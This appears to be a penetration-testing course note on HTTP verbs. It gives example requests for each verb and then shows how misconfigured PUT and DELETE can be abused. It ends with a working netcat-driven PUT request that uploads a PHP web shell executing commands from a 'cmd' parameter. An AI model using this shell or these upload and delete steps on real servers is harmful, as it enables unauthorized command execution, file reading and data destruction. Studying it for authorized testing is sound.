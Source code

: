 # HTTP Verbs

## HTTP Verbs

### **GET**

* Used to request a resource.

```
GET /page.php HTTP/1.1
Host: www.example.site
```

* Can pass arguments. To pass "course=PTS" to page.php, the request will be:

```
GET /page.php?course=PTS HTTP/1.1
Host: www.example.site
```

### **POST**

* Used to submit HTML form data
* Parameters must be in the **message body**

```
POST /login.php HTTP/1.1
Host: www.example.site

username=john&password=mypass
```

### **HEAD**

* Asks just headers of the response instead of the response body

```
HEAD / HTTP/1.1
Host: www.example.site
```

### **PUT**

* Used to **upload** a file to the server
* very dangerous if it is allowed and misconfigured

```
PUT /path/to/destination HTTP/1.1
Host: www.example.site

<PUT data>
```

### **DELETE**

* Used to remove a file from the server
* must be configured wisely as a misused DELETE leads to DOS and data loss

```
DELETE /path/to/destination HTTP/1.1
Host: www.example.site
```

### **OPTIONS**

* Used to query the web server for enabled HTTP Verbs

```
OPTIONS / HTTP/1.1
Host: www.example.site
```

#### Rest APIs

* Represenbtational State Transfer Applicatoin Programming INterface
* Specific type of web app that reslies strongly on almosdt all HTTP verbs
* Common for these apps to use "PUT" for saving data/creating new content and not for saving files
* During a pentest, confirm impact of "PUT/DELETE" method twice before reporting it found
  * After issuing a PUT request, try to look for the existence of the file you created

## Using HTTP 1.0 Syntax

* Using HTTP 1.1 implies also sending a `Host:` header in the request.
* If you use HTTP 1.0, you can skip it

## Exploiting Misconfigured HTTP Verbs

### Enumeration with OPTIONS

* enumerate available methods or verbs

![](<../../../../.gitbook/assets/image (1) (1) (1) (1).png>)

### Exploiting DELETE

![](<../../../../.gitbook/assets/image (21) (1) (1) (1) (1) (1).png>)

![Logging in becomes impossible for every user](<../../../../.gitbook/assets/image (1) (1) (1).png>)

### Exploiting PUT

* you have to know the size of the file you want to upload on the server

![](<../../../../.gitbook/assets/image (10) (1) (1).png>)

* You can then use the size you got to build the PUT message
  * Example: Upload a page displaying info about the PHP installation on a server

![](<../../../../.gitbook/assets/image (6) (1) (1) (1).png>)

### Uploading a PHP Shell with PUT

![](<../../../../.gitbook/assets/image (11) (1) (1) (1).png>)

* This can be used by passing our commands via the cmd GET parameter

![](<../../../../.gitbook/assets/image (20) (1) (1) (1) (1).png>)

* The shell has the same permissions of the web server it runs on.
* For example, we can write a file

![](<../../../../.gitbook/assets/image (17) (1) (1) (1) (1).png>)

* We can also read it

![](<../../../../.gitbook/assets/image (12) (1) (1) (1).png>)

* And we can even read a system file

![](<../../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

{% hint style="warning" %}
Remember that PUT requires that we pass the content length. So we have to know the shell size
{% endhint %}

![](<../../../../.gitbook/assets/image (14) (1) (1) (1) (1).png>)

* We can then build a valid PUT request

```bash
nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 136

<?php
if (isset($_GET['cmd']))
{
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
}
?>
```
